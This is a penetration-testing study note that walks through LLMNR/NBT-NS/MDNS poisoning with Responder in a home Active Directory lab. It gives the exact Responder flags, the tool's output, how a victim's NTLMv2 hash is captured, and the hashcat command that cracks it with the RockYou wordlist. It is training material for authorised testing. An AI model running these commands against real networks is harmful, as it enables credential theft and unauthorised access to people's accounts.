 
# Capturing Hashes with [Responder](../../../../cybersecurity/TTPs/exploitation/tools/responder.md)
Responder is a tool which can be used to perform [LLMNR poisoning](/PEH/active-directory/initial-vectors/LLMNR-poisoning.md) attacks on an [active directory](/computers/windows/active-directory/active-directory.md) domain. [LLMNR](/networking/protocols/LLMNR.md) is not the only protocol which responder can do a poisoning attack on. It can also be used against [NBT-NS](/networking/protocols/NBT-NS.md) and [MDNS](/networking/protocols/MDNS.md).
## Example Usage
Against our AD lab, we're going to use Responder to perform LLMNR poisoning. This will allow us to capture the hash sent for authentication from the victim machine. Once we have the hash, we can crack it to get the password for that machine.

With our AD lab up and active, we're going to use the following command with responder to attack the [domain controller](/computers/windows/active-directory/domain-controller.md)
```bash
responder -I eth0 -dwP
```
### Flags used:
- `-I/ --interface`: tells responder which network interface we want to use.
- `-d/ --DHCP`: tells responder to *also respond* to [DHCP](/networking/protocols/DHCP.md) broadcast requests.
- `-w/ --wpad`: starts a rogue [WPAD](/computers/windows/active-directory/WPAD.md) server (which will respond to hostname resolution requests)
- `-P/ --ProxyAuth`: tells Responder to force NTLM authentication (even if the target network doesn't have WPAD on)
- **OTHER**: `-v/ --verbose`: Will add hashes which you've already captured to the output.
With these flags on, and your attack box on the *same network* as the domain and domain computers, the output should look like this:
```bash
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.4]
    Responder IPv6             [fe80::a00:27ff:fed8:d39f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-06P8C35WKXO]
    Responder Domain Name      [SZWS.LOCAL]
    Responder DCE-RPC Port     [45001]

[+] Listening for events... 
```
Note that all of the poisoner and server types should be on. If you've used Responder before, and changed these, then change them back. Responder is now *listening to your `eth0` interface* for incoming packets related to the listed  protocols.
## Forcing Some Traffic
In a real pentest, you might not see any traffic until staff in the client organization actually login to their AD accounts. So, to force some traffic in our lab simulation, we can login to one of our regular domain VMs.
### Traffic From Powering Up Host
![](PNPT/PNPT-pics/active-directory-9.png)
![](/PNPT-pics/active-directory-9.png)
This is the traffic I was able to capture simply by powering on one of my AD user boxes (haven't logged in as that user yet). This traffic tells us that an MDNS (multicast DNS) request to resolve the hostname *`TRASHCAN.local`*. Our rogue server *responded w/ a poisoned answer* (which was sent to our user box which we powered up).
### Searching for IP in filesystem
Now, if we go to the user VM's File Explorer and search for the IP *of our attacking machine* we get the following hash in Responder:
![](PNPT/PNPT-pics/active-directory-10.png)
![](/PNPT-pics/active-directory-10.png)
This screenshot shows the hash our rogue server received when Dan Dumpster searched for our attacking IP address while logged in to a domain computer. Now that we have the hash (which is an DES-made hash) we can easily crack it to get Dan Dumpster's password.
## Cracking the Hash
To crack this hash, we're going to use [Hashcat](../../../../cybersecurity/TTPs/cracking/tools/hashcat.md). Hashcat is a cracking program which *ideally* uses GPU processing to crack hashes in many different formats. To crack this hash, we're going to specify a value of 5600 to the `-m` flag. This tells hashcat that we're cracking an [NTLMv2](/networking/protocols/NTLM.md) hash.

To give hashcat the hash, copy and paste the entire hash into a file called `hashes.txt`. The hash includes the username and password, so everything from `ddumpster::LANDFILL:...` to `...00000000` at the very end (in my example).

Once that's saved in a file, the command we use w/ hashcat is as follows:
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
We're also using the RockYou [wordlist](../../../../cybersecurity/TTPs/recon/tools/wordlists/seclists.md) which hashcat will use to generate hashes to try and match the one we're looking for. Even in a VM, this crack only takes hashcat about 16 seconds:
![](PNPT/PNPT-pics/active-directory-11.png)
Now we can log in as Dan Dumpster!

> [!Resources]
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)

